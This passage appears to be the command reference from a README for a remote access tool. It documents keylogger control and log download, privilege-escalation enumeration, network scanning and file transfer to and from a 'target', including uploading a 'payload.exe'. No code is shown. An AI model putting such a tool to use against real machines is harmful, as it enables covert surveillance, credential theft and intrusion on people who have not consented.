 **Keylogger:**
| Command | Description | Example |
|---------|-------------|---------|
| `keylog_start` | Start keylogger | `keylog_start` |
| `keylog_stop` | Stop keylogger | `keylog_stop` |
| `keylog_dump` | Download keylog file (auto-saved as keylog_dump_TIMESTAMP.txt) | `keylog_dump` |
| `keylog_status` | Check keylogger status | `keylog_status` |
| `keylog_clear` | Clear keylog file | `keylog_clear` |

**Privilege & System:**
| Command | Description | Example |
|---------|-------------|---------|
| `priv_check` | Check current privileges | `priv_check` |
| `priv_enum` | Enumerate escalation vectors | `priv_enum` |
| `priv_services` | List running services | `priv_services` |
| `sysinfo` | Display system information | `sysinfo` |

**Network:**
| Command | Description | Example |
|---------|-------------|---------|
| `net_info` | Display network info | `net_info` |
| `net_scan` | Scan local network | `net_scan` |
| `net_connections` | Show active connections | `net_connections` |
| `net_public_ip` | Get public IP | `net_public_ip` |

**File Operations:**
| Command | Description | Example |
|---------|-------------|---------|
| `download <file>` | Download file from target | `download logs/keylog.txt` |
| `upload <file>` | Upload file to target | `upload payload.exe` |

---

#### Test Basic Commands

```
help
```

Response: Shows a list of all available commands and their descriptions

```
sysinfo
```
